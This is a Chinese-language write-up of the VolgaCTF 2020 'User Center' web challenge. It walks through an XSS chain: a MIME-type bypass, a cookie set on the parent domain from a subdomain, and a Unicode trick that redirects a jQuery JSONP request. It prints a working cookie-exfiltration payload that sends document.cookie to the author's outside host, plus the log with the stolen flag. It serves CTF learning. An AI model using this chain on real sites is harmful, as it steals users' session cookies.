


# VolgaCTF Qualifier - 2020

## Web / 300 - User Center

>
> Steal admin's cookie!
>
> URL: https://volgactf-task.ru/
>

### Solution

By [@Cyku](https://cyku.tw)

原文連結：[https://cyku.tw/volgactf-2020-qualifier/](https://cyku.tw/volgactf-2020-qualifier/)

---

這道題目一樣有個註冊、登入功能，而右上角還有 Report Bug 的按鈕，題目敘述是「Steal admin's cookie!」，所以很清楚地說明了是 Cross-Site Scripting 題目。



官網主要功能都用 JavaScript 在前端實現，所以來看看前端完整的 js 程式碼（微長）：

```javascript
function getUser(guid) {
  if(guid) {
    $.getJSON(`//${api}.volgactf-task.ru/user?guid=${guid}`, function(data) {
      if(!data.success) {
        location.replace('/profile.html');
      } else {
        profile(data.user);
      }
    });
  } else {
    $.getJSON(`//${api}.volgactf-task.ru/user`, function(data) {
      if(!data.success) {
        location.replace('/login.html');
      } else {
        profile(data.user, true);
      }
    }).fail(function (jqxhr, textStatus, error) {console.log(jqxhr, textStatus, error);});
  }
}

function updateUser(user) {
  $.ajax({
    type: 'POST',
    url: `//${api}.volgactf-task.ru/user-update`,
    data: JSON.stringify(user),
    contentType: "application/json",
    dataType: 'json'
  }).done(function(data) {
    if(!data.success) {
      showError(data.error);
    } else {
      location.replace(`/profile.html`);
    }
  });
}

function logout() {
  $.get(`//${api}.volgactf-task.ru/logout`, function(data) {
    location.replace('/login.html');  
  });
}

function profile(user, edit) {
  if(!['/profile.html','/report.php','/editprofile.html'].includes(location.pathname))
    location.replace('/profile.html');
  $('#username').text(user.username);
  $('#username').val(user.username);
  $('#bio').text(user.bio);
  $('#bio').val(user.bio);
  $('#avatar').attr('src', `//static.volgactf-task.ru/${user.avatar}`);
  if(edit) {
    $('#editProfile').removeClass("d-none");
  }
  $('.nav-item .nav-link[href="/login.html"]').addClass("d-none");
  $('.nav-item .nav-link[href="/register.html"]').addClass("d-none");
  $('.nav-item .nav-link[href="/profile.html"]').removeClass("d-none");
  $('.nav-item .nav-link[href="/logout.html"]').removeClass("d-none");
}

function replaceForbiden(str) {
  return str.replace(/[ !"#$%&織()*+,\-\/:;<=>?@\[\\\]^_`{|}~]/g,'').replace(/[^\x00-\x7F]/g, '?');
}

function showError(error) {
   $('#error').removeClass("d-none").text(error);
}

$(document).ready(function() {
  api = 'api';
  if(Cookies.get('api_server')) {
    api = replaceForbiden(Cookies.get('api_server'));
  } else {
    Cookies.set('api_server', api, {secure: true});
  }

  $.ajaxSetup({
    xhrFields: {
      withCredentials: true
    }
  });

  $('#logForm').submit(function(event) {
    event.preventDefault();
    $.ajax({
      type: 'POST',
      url: `//${api}.volgactf-task.ru/login`,
      data: JSON.stringify({username: $('#username').val(), password: $('#password').val()}),
      contentType: "application/json",
      dataType: 'json'
    }).done(function(data) {
      if(!data.success) {
        showError(data.error);
      } else {
        location.replace(`/profile.html?guid=${data.guid}`);
      }
    });
  });

  $('#regForm').submit(function(event) {
    event.preventDefault();
    $.ajax({
      type: 'POST',
      url: `//${api}.volgactf-task.ru/register`,
      data: JSON.stringify({username: $('#username').val(), password: $('#password').val()}),
      contentType: "application/json",
      dataType: 'json'
    }).done(function(data) {
      if(!data.success) {
        showError(data.error);
      } else {
        location.replace(`/profile.html`);
      }
    });
  });

  $('#avatar').on('change',function(){
    $(this).next('.custom-file-label').text($(this).prop('files')[0].name);
  });

  $('#editForm').submit(function(event) {
    event.preventDefault();
    b64Avatar = '';
    mime = '';
    bio = $('#bio').val();
    avatar = $('#avatar').prop('files')[0];
    if(avatar) {
      reader = new FileReader();
      reader.readAsDataURL(avatar);
      reader.onload = function(e) {
        b64Avatar = reader.result.split(',')[1];
        mime = avatar.type;
        updateUser({avatar: b64Avatar, type: mime, bio: bio});
      }  
    } else {
      updateUser({bio: bio});
    }
  });

  params = new URLSearchParams(location.search);

  if(['/','/index.html','/profile.html','/report.php','/editprofile.html'].includes(location.pathname)) {
    getUser(params.get('guid'));
  }
  if(['/logout.html'].includes(location.pathname)) {
    logout();
  }
});
```


程式碼微長，但我們還是可以很快看到關鍵的幾個點，如果 cookie 中存在 api_server，就會取那個值當作 API server 的 subdomain，而後面呼叫 API server 的方法都是透過 jQuery.getJSON 這個函式，而這個函式有個特色是如果網址中含有類似 `callback=?` 的 pattern，會將 API 以 JSONP 的方式進行載入，所以只要我們控制 API server 指到我們的伺服器，回傳惡意的 JSONP 內容就能執行任意 JavaScript。

參考文件：[jQuery.getJSON()#jsonp](https://api.jquery.com/jQuery.getJSON/#jsonp)

```javascript
api = 'api';
if(Cookies.get('api_server')) {
  api = replaceForbiden(Cookies.get('api_server'));
} else {
  Cookies.set('api_server', api, {secure: true});
}
  
function getUser(guid) {
  if(guid) {
    $.getJSON(`//${api}.volgactf-task.ru/user?guid=${guid}`, function(data) {
      if(!data.success) {
        location.replace('/profile.html');
      } else {
        profile(data.user);
      }
    });
  } else {
    $.getJSON(`//${api}.volgactf-task.ru/user`, function(data) {
      if(!data.success) {
        location.replace('/login.html');
      } else {
        profile(data.user, true);
      }
    }).fail(function (jqxhr, textStatus, error) {console.log(jqxhr, textStatus, error);});
  }
}
```

但我們該如何在目標 domain 下設置 api_server cookie 呢？這就要利用上傳大頭貼的功能，當我上傳一張大頭貼照片時，會發出如下的 API 請求，avatar 為 base64 encode 過的圖片二進位資料，type 則是取得圖片時會回應的 Content-Type，最後照片會上傳到 static 的 subdomain 下，例如：`https://static.volgactf-task.ru/e991c08651233e7113263f83af8ca810`。

```plaintext
POST /user-update HTTP/1.1
Host: api.volgactf-task.ru
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Referer: https://volgactf-task.ru/editprofile.html
Content-Type: application/json
Content-Length: 62
Origin: https://volgactf-task.ru
Cookie: PHPSESSID=vfl71tu5hvoepu7dd8pe89ce23
Connection: close

{"avatar":"SSBhbSBpbWFnZQ==","type":"image/jpeg","bio":"woof"}
```

那既然我們能控制回應的 Content-Type，就有機會在 `static.volgactf-task.ru` domain 下進行 XSS 攻擊。可是當我們嘗試修改 type 為 text/html 時出現錯誤「Forbidden MIME type」。



經過黑箱測試後，發現可以用 `text/htm\rl` 繞過檢查，於是我們就能得到 `static.volgactf-task.ru` domain 下的 XSS。

接下來就是考慮如何串回主目標的 `volgactf-task.ru` domain，有趣的事實是瀏覽器允許 subdomain 設定 parent domain 的 cookie，所以如果我們在 `static.volgactf-task.ru` 上執行下面一行 JavaScript，是可以成功對 `volgactf-task.ru` 設定一個 api_server 的 Cookie 值。

```plaintext
document.cookie = 'api_server=anything; domain=.volgactf-task.ru; path=/';
```

所以我們就可以劫持一開始所說的對 API server 發的請求，不過在取出 api_server cookie 之後還會對值作一些過濾，雖然不能用「/」、「#」等字元，但可以塞 Unicode 字元，在經過 replaceForbiden 處理後，像是「喵」的字元會變成「?」，配合 API url 組合的方式，只要寫入 `api_server=cyku.tw喵` 的 cookie，我們就可以讓目標對 `//cyku.tw?.volgactf-task.ru/user` 發出請求，只要再回應惡意的 JSONP 內容，就可以得到 `volgactf-task.ru` 下的 XSS 了。

```javascript
function replaceForbiden(str) {
  return str.replace(/[ !"#$%&織()*+,\-\/:;<=>?@\[\\\]^_`{|}~]/g,'').replace(/[^\x00-\x7F]/g, '?');
}

api = replaceForbiden(Cookies.get('api_server'));

$.getJSON(`//${api}.volgactf-task.ru/user?guid=${guid}`, function(data) { .. });
```

<br />

最終的一些 Payload

`https://static.volgactf-task.ru/dc22aeee8535ae22cfbc8436362bd602`：
```plaintext
HTTP/1.1 200 OK
Server: nginx/1.16.1 (Ubuntu)
Date: Sun, 29 Mar 2020 16:01:04 GMT
Content-Type: text/html
Content-Length: 170
Connection: close
x-amz-id-2: lnjpjj+DN8MtESPMLchngoj5N26k9fp0vgNSbok8tzdFrmOxeeQZEcZp0E9UN3meoO0FJmxJx6c=
x-amz-request-id: 592B8F8A3A31F54F
Last-Modified: Sun, 29 Mar 2020 16:00:59 GMT
ETag: "f1f0b0742b543cfb93c8a175368ebdd7"
Accept-Ranges: bytes
X-Content-Type-Options: nosniff

<script>
document.cookie = 'api_server=poc.cyku.tw\u55B5; domain=.volgactf-task.ru; path=/';
document.location = 'https://volgactf-task.ru/profile.html?guid=?';
</script>
```


`poc.cyku.tw`：
```php
<?php
header('application/javascript');
header('Access-Control-Allow-Origin: *');
?>

(new Image).src = '//poc.cyku.tw/?flag=' + document.cookie;
```

最後在 Report Bug 送出連結後，就能在 access.log 收到 flag

```
134.209.205.157 - - [28/Mar/2020:06:38:20 +0000] "GET /?flag=flag=VolgaCTF_0558a4ad10f09c6b40da51c8ad044e16;%20api_server=poc.cyku.tw%E5%96%B5 HTTP/2.0" 200 81 "https://volgactf-task.ru/profile.html?guid=?" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:74.0) Gecko/20100101 Firefox/74.0" "-"
```

Flag：`VolgaCTF_0558a4ad10f09c6b40da51c8ad044e16`